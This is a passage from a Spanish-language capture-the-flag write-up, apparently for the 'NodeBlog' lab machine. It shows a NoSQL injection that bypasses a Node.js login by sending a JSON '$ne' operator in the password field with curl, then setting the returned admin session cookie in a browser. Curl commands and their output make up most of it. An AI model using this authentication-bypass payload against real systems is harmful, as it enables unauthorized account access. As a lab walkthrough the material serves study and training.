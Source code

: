 Sin embargo podemos indicarle, que el **Content-Type** sea JSON para ver si ahora si funciona, simplemenete al comando le agregamos el **-H** para especificar que el encabezado **Content-Type** sea **application/json** y modificamos el fomato de los datos a enviar:

```ruby
curl -v -X POST -d '{"user": "admin", "password": {"$ne": "mizuki"}}' -H 'Content-Type: application/json' 10.10.11.139:5000/login 2>&1 | grep -E "Content-Length|Invalid"
```

Y ahora dio una respuesta diferente al ```Content-Length: 1040``` y ya no muestra el ```Invalid Password```

```ruby
curl -v -X POST -d '{"user": "admin", "password": {"$ne": "mizuki"}}' -H 'Content-Type: application/json' 10.10.11.139:5000/login 2>&1 | grep -E "Content-Length|Invalid"
> Content-Length: 48
< Content-Length: 2625
```

Eso significa que funciono, en caso de que lo estes haciendo como yo, con curl, puedes modificar el comando y quitarle el grep, asi que quedaria de esta forma:

```ruby
curl -v -X POST -d '{"user": "admin", "password": {"$ne": "mizuki"}}' -H 'Content-Type: application/json' 10.10.11.139:5000/login
```

Ahora saldra mas informacion, y en los encabezados de respuesta podras ver una cookie de sesion:

```ruby
Set-Cookie: auth=%7B%22user%22%3A%22admin%22%2C%22sign%22%3A%2223e112072945418601deb47d9a6c7de8%22%7D; Max-Age=900; Path=/; Expires=Wed, 09 Aug 2023 03:24:03 GMT; HttpOnly
```

Asi que ahora debemos de establecer esa cookie en el navegador, puedes usar Cookie Editor o desde el mismo navegador, yo use Cookie Editor y quedo asi:

![](/assets/img/nodeBlog/5.png)

Y el recargar la pagina en la ruta **/** ya podremos acceder como admin evadiendo el login

![](/assets/img/nodeBlog/6.png)

### Extra

Mientras probaba con curl al realizar las peticiones, hubo un momento donde se me olvido cerrar una llave en este comando:

```ruby
curl -v -X POST -d '{"user": "admin", "password": {"$ne": "mizuki"}' -H 'Content-Type: application/json' 10.10.11.139:5000/login
```

Y eso me arrojo esto:

```ruby
*   Trying 10.10.11.139:5000...
* Connected to 10.10.11.139 (10.10.11.139) port 5000 (#0)
> POST /login HTTP/1.1
> Host: 10.10.11.139:5000
> User-Agent: curl/8.1.1
> Accept: */*
> Content-Type: application/json
> Content-Length: 47
> 
< HTTP/1.1 400 Bad Request
< X-Powered-By: Express
< Content-Security-Policy: default-src 'none'
< X-Content-Type-Options: nosniff
< Content-Type: text/html; charset=utf-8
< Content-Length: 849
```